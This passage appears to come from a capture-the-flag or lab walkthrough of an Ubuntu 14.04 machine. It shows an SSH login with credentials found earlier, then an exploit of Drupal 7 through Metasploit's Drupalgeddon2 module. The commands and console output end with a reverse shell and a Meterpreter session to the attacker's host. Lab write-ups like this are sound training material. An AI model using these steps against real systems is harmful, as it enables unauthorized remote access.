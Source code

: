 
### SSH login

We can now login through SSH using the credentials.

```
$ ssh tiago@192.168.167.48   
The authenticity of host '192.168.167.48 (192.168.167.48)' can't be established.
ED25519 key fingerprint is SHA256:GGW0ASyjbhMycAKiglcXcsa0HvSwkLHZP9bQBtVrPs8.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.167.48' (ED25519) to the list of known hosts.
tiago@192.168.167.48's password: 
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Sun May  5 03:04:20 BRT 2024

  System load:  0.45              Processes:           142
  Usage of /:   7.6% of 19.07GB   Users logged in:     0
  Memory usage: 29%               IP address for eth0: 192.168.167.48
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

tiago@lampiao:~$ 
```

&nbsp;

## Exploitation vector 2

We know that the Drupal service is running version 7. This version is vulnerable to the Drupalgeddon2 exploit.

We can find the exploit on the Metasploit framework.

### Using exploit module from Metasploit framework

```
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set RPORT 1898
```

```
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set TARGETURI /
```

```
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set LHOST 192.168.45.187
```

```
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > run

[*] Started reverse TCP handler on 192.168.45.187:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending stage (39927 bytes) to 192.168.167.48
[*] Meterpreter session 1 opened (192.168.45.187:4444 -> 192.168.167.48:45780) at 2024-05-05 12:42:10 +0530

meterpreter > 
```
